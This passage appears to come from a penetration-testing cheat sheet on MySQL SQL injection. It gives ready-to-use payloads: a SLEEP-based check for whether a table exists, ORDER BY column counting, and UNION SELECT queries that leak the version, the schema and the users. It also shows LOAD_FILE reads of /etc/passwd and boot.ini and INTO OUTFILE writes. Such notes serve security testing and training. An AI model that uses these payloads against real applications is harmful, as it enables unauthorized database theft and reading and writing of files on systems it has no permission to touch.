 * Check if the admin table exists:

  ```text
  and IF(SUBSTRING ((select 1 from admin limit 0,1),1,1)=1,SLEEP(5),1)
  ```

Finding number of columns using ORDER BY

* We can use order by to sort the result by a given column number, if the column does not exist, we will get an error:

  ```text
  vuln.php?id=1 order by 9 # This throws no error
  vuln.php?id=1 order by 10 # This throws error
  ```

MySql UNION code execution

* Joins the result of two queries
  * Two queries should return the same \# of columns.
  * Data-types in columns of the select must be of the same orcompatible type.
* Once you have the right number of columns \(i.e. 3\) you can find the mysql version:

  ```text
  UNION SELECT @@version,NULL, NULL#'
  ```

* mysql users:

  ```text
  UNION SELECT table_schema,NULL,NULL FROM information_schema.columns#'
  ```

* if the result displays garbage from the first query, you can add a false condition to only show the union result **AND 1=0 UNION...**
* Read files

  ```text
  AND 1=0 UNION SELECT LOAD_FILE('C:\\boot.ini'),NULL,NULL #'
  ```

* Write files

  ```text
  AND 1=0 UNION SELECT 'bad content',NULL,NULL INTO OUTFILE 'C:\\random_file.txt' #'
  ```

* Other payloads:

  ```text
  -1 union all select @@version --
  1 union SELECT user FROM mysql.user
  1 union select 'foo' into outfile '/tmp/foo'
  1 union select load_file('/etc/passwd')
  ```

## MySql UNION db leak

* First, identify vulnerable parameter by causing true and false conditions:

  ```text
  or 1=1 vs or 1=2
  and 1=2 vs and 1=1
  ```

